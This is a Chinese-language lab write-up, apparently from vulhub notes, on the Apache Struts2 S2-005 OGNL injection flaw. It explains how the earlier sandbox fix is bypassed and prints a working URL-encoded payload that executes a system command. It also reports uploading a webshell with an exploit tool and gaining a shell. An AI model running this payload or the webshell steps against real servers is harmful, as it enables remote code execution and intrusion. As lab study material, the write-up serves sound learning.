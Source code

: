 > S2-005漏洞起源源于S2-003（受影响版本：低于Struts 2.0.12），Struts2会将http的每个参数名解析为OGNL语句执行（可理解为Java代码 ）。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

XWork会将GET参数的键和值利用OGNL表达式解析成Java语句，如：

~~~java
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//会被转化成
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
~~~

触发漏洞就是利用了这个点，再配合OGNL的沙盒绕过方法，组成了S2-003。官方对003的修复方法是增加了安全模式（沙盒），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用`\u0023`绕过s2对`#`的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码

### 环境

~~~dock
docker-compose build
docker-compose up -d
~~~



### POC &&EXP

执行任意命令POC（无回显，空格用`@`代替）：

~~~
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
~~~

![image-20220526155701683](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220526155701683.png)

![image-20220526155632239](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220526155632239.png)网上一些POC放到tomcat8下会返回400，研究了一下发现字符`\`、`"`不能直接放path里，需要urlencode，编码以后再发送就好了。这个POC没回显。但是命令成功执行，在/tmp目录下成功创建文件。

尝试更换命令为`ifconfig`或`pwd`等命令，并不回显任何消息。



### 使用工具 K8 Struts2 EXP

![image-20220526164952729](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220526164952729.png)

 

上传木马：然后使用冰蝎连接

![image-20220526165037541](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220526165037541.png)返回shell成功
